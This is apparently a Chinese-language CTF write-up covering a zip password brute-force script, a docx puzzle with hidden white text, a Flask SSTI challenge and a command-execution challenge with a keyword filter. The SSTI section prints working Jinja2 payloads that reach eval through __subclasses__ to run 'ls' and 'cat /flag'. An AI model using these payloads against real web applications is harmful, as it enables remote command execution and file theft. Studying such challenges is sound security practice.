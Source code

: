 ```python
     path = re.sub(pattern, zip.namelist()[0][0:4], path)
     print('正在尝试解压 %s'% path)
     break
 passFile.close()
if __name__=='__main__':
 get_pass()

```

## docx

这是一道关于docx文档的题，先是一个加密的压缩包需要暴力破解拿到里面的word文档。

思路一：打开文档里面一片空白，鼠标点击文档中间发现被一个白底无边框文本框遮住，删除这个文本框。然后发现还是一片空白，鼠标点击可以发现文档中是有内容的，点开字体设置里面，发现字体颜色为白色，真相大白！修改字体颜色或者修改背景都可以让隐藏在白色文档背景中的白色字显示出来。

思路二：直接修改.docx文档后缀为.zip，然后解压缩打开`/word/document.xml`文件中包含文档中的文字内容。

## ssti漏洞

属于一个flask框架的ssti漏洞，网上搜一下就懂了，先通过`http://172.x.x.x:xxxx/?name={{2*2}}`返回了4，就说明存在模版注入漏洞。执行脚本可以执行任意命令。

执行ls查看文件目录：

```python
{% for c in ().__class__.__bases__[0].__subclasses__(): %}
{% if c.__name__ == '_IterationGuard': %}
{{c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls -a').read()") }}
{% endif %}
{% endfor %}
```

执行cat命令查看文件内容：

```python
{% for c in ().__class__.__bases__[0].__subclasses__(): %}
{% if c.__name__ == '_IterationGuard': %}
{{c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()") }}
{% endif %}
{% endfor %}
```

## 查看文件

题目给出一个地址，参数为linux命令，后台回去执行返回结果。使用命令查看flag文件，要求命令中不能出现flag单词。

尝试各种读文件命令：

```vim
cat--由第一行开始显示内容，并将所有内容输出
tac--从最后一行倒序显示内容，并将所有内容输出
more-- 根据窗口大小，一页一页的现实文件内容
less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head-- 只显示头几行
tail --只显示最后几行
nl --类似于cat -n，显示时输出行号
tailf-- 类似于tail -f
vim --使用vim工具打开文本
vi --使用vi打开文本cat 由第一行开始显示内容，并将所有内容输出
```
